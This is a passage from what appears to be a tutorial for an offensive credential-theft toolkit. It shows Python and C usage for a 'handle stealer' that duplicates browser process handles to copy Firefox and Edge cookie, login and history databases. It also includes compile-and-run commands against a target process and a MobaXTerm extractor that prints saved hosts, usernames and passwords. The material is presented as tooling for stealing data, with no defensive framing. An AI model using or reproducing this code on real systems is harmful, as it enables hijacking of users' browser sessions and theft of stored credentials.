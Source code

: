 ```python
    firefox_cookies = stealer.steal_cookie_database(firefox_pid, "firefox")
    print(f"Firefox cookies extracted: {len(firefox_cookies)}")

if edge_pid:
    edge_cookies = stealer.steal_cookie_database(edge_pid, "edge")
    print(f"Edge cookies extracted: {len(edge_cookies)}")
```

#### Advanced Handle Operations:
```python
# Duplicate process handles
duplicated_handles = stealer.duplicate_process_handles(target_pid)

# Extract specific file handles
file_handles = stealer.extract_file_handles(target_pid)

# Steal specific databases
databases = [
    "Cookies", "Login Data", "Web Data", "History",
    "Bookmarks", "Preferences", "Secure Preferences"
]

for db in databases:
    stolen_db = stealer.steal_database(target_pid, db)
    if stolen_db:
        print(f"Stolen {db}: {len(stolen_db)} bytes")
```

#### C Implementation Usage:
```bash
# Compile C version
gcc -o handle-stealer.exe handle-stealer.c -lpsapi -lntdll

# Run C version
./handle-stealer.exe <target_pid> <database_name>

# Example
./handle-stealer.exe 1234 Cookies
```

### 2. MobaXTerm Extractor Tutorial

#### Basic Usage:
```python
from persistence_tools.MobaXTerm import MobaXTermExtractor

# Initialize extractor
extractor = MobaXTermExtractor()

# Extract MobaXTerm sessions
sessions = extractor.extract_sessions()

# Process sessions
for session in sessions:
    print(f"Session Name: {session['name']}")
    print(f"Host: {session['host']}")
    print(f"Port: {session['port']}")
    print(f"Username: {session['username']}")
    print(f"Password: {session['password']}")
    print(f"Protocol: {session['protocol']}")
    print("-" * 40)
```
